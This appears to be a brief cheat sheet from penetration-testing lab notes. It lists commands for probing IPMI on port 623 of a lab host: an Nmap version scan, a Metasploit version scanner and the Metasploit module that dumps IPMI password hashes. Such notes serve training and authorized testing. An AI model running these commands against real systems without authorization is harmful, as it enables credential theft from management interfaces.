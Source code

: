 1. Nmap: `sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local`
2. Metasploit Version Scan: `msf6 > use auxiliary/scanner/ipmi/ipmi_version`
3. Metasploit dump hashes: `msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes`
